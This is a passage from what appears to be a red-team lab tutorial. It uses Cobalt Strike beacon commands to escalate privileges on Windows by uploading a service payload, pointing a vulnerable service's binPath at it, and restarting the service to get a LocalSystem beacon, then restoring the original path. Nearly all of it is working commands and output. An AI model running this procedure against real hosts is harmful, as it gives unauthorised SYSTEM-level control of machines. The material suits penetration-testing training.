 2. **Next, we need to upload a service binary payload and reconfigure the binary path on the vulnerable service:**

```
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe

beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
[SC] ChangeServiceConfig SUCCESS
```

{% hint style="info" %}
Note: the space after `binPath=` is intentional.
{% endhint %}

3. **Now, validate that the path has indeed been updated:**

```
beacon> run sc qc VulnService2

SERVICE_NAME: Vuln-Service-2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Temp\tcp-local_x64.svc.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

**Since the service is currently running (can be seen by running `sc query VulnService2`), we must stop and then start the service to execute our malicious binary as so:**

```
beacon> run sc stop VulnService2
beacon> run sc start VulnService2

beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```

**To restore the previous binary path:**

```
beacon> run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"
[SC] ChangeServiceConfig SUCCESS
```

{% hint style="warning" %}
The additional set of escaped quotes is necessary to ensure that the path remains fully quoted, otherwise you could introduce a new unquoted service path vulnerability.
{% endhint %}
